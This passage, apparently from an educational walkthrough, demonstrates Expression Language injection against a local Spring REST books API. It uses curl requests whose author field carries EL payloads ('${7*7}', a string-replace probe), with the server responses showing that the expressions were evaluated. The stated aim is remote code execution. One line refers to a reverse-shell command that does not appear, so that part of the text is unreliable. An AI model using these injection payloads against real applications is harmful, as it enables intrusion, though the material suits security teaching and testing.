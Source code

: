 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
root@kali:/home/kali# curl -X POST http://localhost:8080/books -H "Content-type:application/json" -d "{\"name\":\"Spring REST tutorials\", \"author\":\"\${7*7}\",\"price\":\"9.99\"}"

{
    "timestamp": "2021-11-17T12:28:24.005+0000",
    "status": 400,
    "errors": ["Author <span style="color:#cd0000;"><b>49</b></span> is not allowed to be added. Only three authors are allowed"]
}
</pre>

<p align="justify">
Well, what a surprise, we can send data to the vulnerable application from an entry point that we control. This means we can control the Expression Language interpreter and at this point we can try to get remote code execution. 
</p>

<p align="justify">
The command above will open a reverse tcp connection to the target server listening on port 4444. 
</p>


<p align="justify">
At this point all we have to do is to inject code and construct our payload, that will furhter lead us to inject commands to the target server. 
</p>

<p align="justify">
In order to be sure that we can inject code, we will use the following payload that performs a replacement at the letter 'k' with the letter 'x'
</p>

```bash

"${'zkz'.toString().replace('k', 'x')}"

```

Now lets inject this payload to the application


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
root@kali:/home/kali# curl -X POST  http://192.168.14.1:8080/books -H "Content-type:application/json" -d "{\"name\":\"Spring REST tutorials\", \"author\":\"\${'zkz'.toString().replace('k', 'x')}\",\"price\":\"9.99\"}"

{
    "timestamp": "2021-11-18T07:44:32.532+0000",
    "status": 400,
    "errors": ["Author zxz is not allowed to be added. Only three authors are allowed"]
}
